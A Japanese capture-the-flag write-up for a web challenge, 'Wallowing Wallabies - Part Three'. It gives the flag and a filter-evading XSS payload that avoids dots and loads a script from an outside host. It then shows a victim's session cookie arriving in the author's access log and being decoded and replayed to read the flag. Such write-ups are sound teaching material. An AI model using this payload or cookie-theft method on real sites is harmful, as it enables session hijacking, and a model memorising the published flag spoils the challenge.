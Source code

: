 # Wallowing Wallabies - Part Three
Category: Web
Point: 150

## Question
And for the last challenge, can you get the last token? Same website as [before](https://wallowing-wallabies.ctfcompetition.com/)

## FLAG
`CTF{intents_is_the_INTENTed_way_to_solve_some_an_android_level}`

## Answer
Wallowing Wallabies - Part One，およびPart Twoの続きで，`/deep-blue-sea/team/characters`ページに新しいフォームが追加されている．

`Title`の方に，適当に値を入力して送信してみると，`.`が抜け落ちることと`//`が`/`に置換されることがわかる．
そのため，`.`を使わない方法を考えるのと，`//`を入力したい場合は`////`とする必要がある．

`.`を使わない方法はいくつか考えられるが，JavaScriptでは，連想配列のようにオブジェクトのメソッドを呼ぶことが出来るため，下記はそれを利用している．
```html
<img src=0 onerror="document['write']('<script src='+'https:////' + ['www', 'example', 'com']['join'](String['fromCharCode'](46)) + '/' + ['external', 'js']['join'](String['fromCharCode'](46))+'></script>')">
```

フォームに送信してから，しばらくすると，WebサーバのアクセスログにCookieの情報が乗ったアクセスが届く．  
`green-mountains=eyJub25jZSI6ImIxYzNiNjE5ZTgxOWQ1OWYiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vcGFyYWdyYXBoLiokIiwiZXhwaXJ5IjoxNDYyMTIxODYwfQ==|1462121857|f3e2dd94ff3d1b252f0d9f98a7a5757e66fa41c3`

`|`で三区分された一つ目の文字列をデコードしてみる．
```bash
$ echo 'eyJub25jZSI6ImIxYzNiNjE5ZTgxOWQ1OWYiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vcGFyYWdyYXBoLiokIiwiZXhwaXJ5IjoxNDYyMTIxODYwfQ==' | base64 -D
{"nonce":"b1c3b619e819d59f","allowed":"^/deep-blue-sea/team/paragraph.*$","expiry":1462121860}
```

上記のCookieの値をセットして，`paragraphs`ページをアクセスすると，フラグが表示される．

## Author
GitHub: @asakasa
